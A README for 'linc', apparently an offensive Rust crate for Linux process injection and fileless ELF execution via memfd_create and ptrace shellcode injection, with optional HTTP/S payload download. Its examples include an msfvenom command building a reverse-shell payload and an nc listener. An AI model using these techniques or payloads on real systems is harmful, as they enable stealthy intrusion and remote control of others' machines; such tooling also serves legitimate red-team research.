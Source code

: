# LINC - Linux INjection Crate
`linc` is a Rust crate containing implementations for process injection and fileless ELF execution techniques on Linux.

## Functionality
The following techniques are currently implemented:
- Using [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) to create an anonymous file in memory, write an ELF to it, and then execute.
- Using [ptrace(2)](https://man7.org/linux/man-pages/man2/ptrace.2.html) to stop a forked process, overwrite its RIP register with shellcode, and then resume it.

## Usage
Add `linc` as a dependency to your Rust
```bash
cargo add --git https://github.com/dustyw0lf/linc.git
```

Add `linc` with the `http` to enable payload downloads via HTTP/S
```bash
cargo add --git https://github.com/dustyw0lf/linc.git --features http
```

## Features
`linc` has the following features, enabled by default:
- `http`: Adds functionality to download payloads over HTTP/S.

## Examples
>[!note]
>The examples can take binaries or shellcode from either URLs or filesystem paths.

Clone the repo
```bash
git clone https://github.com/dustyw0lf/linc.git
```

Change directory into `linc`
```bash
cd linc
```

### memfd
Run the memfd example with an ELF file
```bash
cargo run --example memfd_executable
```

Run the memfd example with the provided shellcode or use your own:
```bash
msfvenom --payload 'linux/x64/shell_reverse_tcp' LHOST=127.0.0.1 LPORT=1234 --format 'raw' --platform 'linux' --arch 'x64' --out shellcode.bin
```

Start a listener
```bash
nc -lvnp 1234
```

Run the example
```bash
cargo run --example memfd_shellcode
```

### hollow
Run the hollow example with shellcode
```bash
cargo run --example hollow_shellcode
```

## Testing
Run tests
```bash
cargo test
```

## Documentation
Build the documentation
```bash
cargo doc --no-deps
```

The documentation will be in `target/doc/linc/index.html`.

## Acknowledgments
The code that turns shellcode into an ELF file was taken from the [minimal-elf](https://github.com/tchajed/minimal-elf) repository by [Tej Chajed](https://www.chajed.io).
